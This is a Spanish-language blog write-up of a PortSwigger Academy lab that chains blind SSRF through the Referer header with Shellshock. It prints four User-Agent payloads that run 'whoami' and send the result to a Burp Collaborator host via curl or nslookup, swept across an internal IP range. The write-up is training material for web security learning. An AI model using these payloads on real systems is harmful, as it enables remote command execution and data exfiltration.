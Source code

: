 +++
author = "Alux"
title = "Portswigger Academy Learning Path: Server-side request forgery (SSRF) Lab 7"
date = "2022-01-22"
description = "Lab: Blind SSRF with Shellshock exploitation"
tags = [
    "ssrf",
    "server-side request forgery",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Blind SSRF with Shellshock exploitation

En este <cite>laboratorio[^1]</cite>la finalidad es poder realizar ataques de ssrf que esta vulnerabildad trata de realizar solicitudes hacia otros dominios o ip arbitrarias a la cual el host puede tener acceso como puede ser una red interna a la que no se podria tener acceso desde afuera pero esta vez no es tan interna.

![Vulnerabilidad SSRF](banner.svg)

## Reconocimiento

Viendo la web y la informacion que nos da el lab es que el sistema envia la url al terminar de cargar toda la pagina y esto a traves del `Referer Header`. Y tambien se nos da e entender que uno de los sistemas es vulnerable a `Shellshock` por lo que debemos explotarlo para enviar el usuario de ese sistema dentro de la red y sustraer su usuario.

![Peticion para cargar producto](request1.png)


## Explotacion

Sabiendo esto preparamos nuestra peticion enviando cualquiera de las siguientes inyecciones en el `User-Agent` para explotar Shellchock que lo que hara es enumerar ya sea el nombre de dns con el nombre del usuario del sistema o hacer una peticion para la solicitud de la web pero claramente inyectando el nombre de usuario.

```
User-Agent: () { :; }; /usr/bin/curl $(whoami).qb5jf0ce8ttcnwvxrfeco4y0zr5kt9.burpcollaborator.net
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).qb5jf0ce8ttcnwvxrfeco4y0zr5kt9.burpcollaborator.net
User-Agent: () { :; }; /usr/bin/curl `whoami`.qb5jf0ce8ttcnwvxrfeco4y0zr5kt9.burpcollaborator.net
User-Agent: () { :; }; /usr/bin/nslookup `whoami`.qb5jf0ce8ttcnwvxrfeco4y0zr5kt9.burpcollaborator.net
```

Y todo esto lo hacemos en el rango de ips `192.168.0.1-255` hacia la pagina de inicio

![Posiciones para el envio de peticiones](positions.png)

![Payload a enviar para las solicitudes](payloads.png)

Y hemos recibido una peticion en Burp Collaborator con el nombre de usuario del sistema que es vulnerable a shellshock.

![Collaborator log](collaborator.png)

Y ahora ya hemos resuelto el lab automaticamente.

![Laboratorio resuelto](resuelto.png)

[^1]: [Laboratorio](https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation)